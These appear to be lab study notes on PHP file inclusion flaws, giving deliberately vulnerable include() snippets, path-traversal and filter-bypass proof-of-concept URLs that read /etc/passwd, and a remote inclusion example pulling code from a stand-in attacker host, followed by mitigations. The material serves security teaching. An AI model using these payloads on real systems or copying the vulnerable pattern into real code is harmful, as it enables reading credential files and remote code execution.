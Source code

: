 # File Inclusion Vulnerabilities

## 🔍 Overview
- File Inclusion vulnerabilities allow attackers to include files, usually through the web browser.
- Two main types:
  - Local File Inclusion (LFI): Include files already on the server.
  - Remote File Inclusion (RFI): Include files from remote locations.
- Can also exploit Directory Traversal to access sensitive files outside the web root.

## 🧩 Why File Inclusion Happens
- Caused by unsanitized user input in file handling functions (e.g., include, require, file_get_contents).
- Often found in PHP and similar languages when input is not validated.

## ⚠️ Risks
- Read sensitive files like /etc/passwd.
- Leak credentials or system information.
- Gain Remote Code Execution (RCE) when combined with write access or RFI.
- Expose SSH keys, mail, logs, etc.

## 🔐 Common Targeted OS Files
| File                          | Description                                    |
|------------------------------|------------------------------------------------|
| /etc/passwd                  | User account info                              |
| /etc/shadow                  | Password hashes                                |
| /var/log/apache2/access.log  | Web server logs                                |
| /proc/version                | Kernel version info                            |
| C:\boot.ini                 | Boot config on Windows                         |

![image](https://github.com/user-attachments/assets/264fcf24-a71b-4be3-a9f2-711e6ccbd925)

## 🧪 Types of File Inclusion Exploits

### Local File Inclusion (LFI)
1. Basic LFI (No Directory Constraints)
<?php 
    include($_GET["lang"]);
?>
PoC:
http://webapp.thm/index.php?lang=/etc/passwd

2. LFI with Directory Restriction
<?php 
    include("languages/" . $_GET['lang']); 
?>
PoC:
http://webapp.thm/index.php?lang=../../../../etc/passwd

3. Black Box Testing with Error Disclosure
Error Hint:
include(languages/THM.php);
PoC (Path Traversal):
http://webapp.thm/index.php?lang=../../../../etc/passwd
PoC with Null Byte (for older PHP < 5.3.4):
http://webapp.thm/index.php?lang=../../../../etc/passwd%00

4. Bypassing Filters (Keyword Filtering)
Tricks:
- Use /etc/passwd/. (current directory trick)
- Use /etc/passwd%00 (null byte)
- Replace ../ with ....// as PHP filter only matches and replaces the first subset string ../ it finds and doesn't do another pass
- Eg: http://webapp.thm/index.php?lang=....//....//etc/passwd

5. Forced Directory Prefix
PoC:
http://webapp.thm/index.php?lang=languages/../../../../etc/passwd

### Remote File Inclusion (RFI)
- Remote File Inclusion (RFI) is a technique to include remote files into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into include function. One requirement for RFI is that the allow_url_fopen option needs to be on.
- The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:

- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

#### How it works
The attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message Hello THM, <?PHP echo "Hello THM"; ?>

- First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. 
- If there is no input validation, then the malicious URL passes into the include function. 
- Next, the web app server will send a GET request to the malicious server to fetch the file. 
- As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

## 🛡️ Mitigations
- Sanitize and validate all user input.
- Disable allow_url_fopen, allow_url_include.
- Use whitelisting for allowed files/paths.
- Keep PHP and frameworks up to date.
- Turn off verbose error messages in production.
- Deploy a Web Application Firewall (WAF).
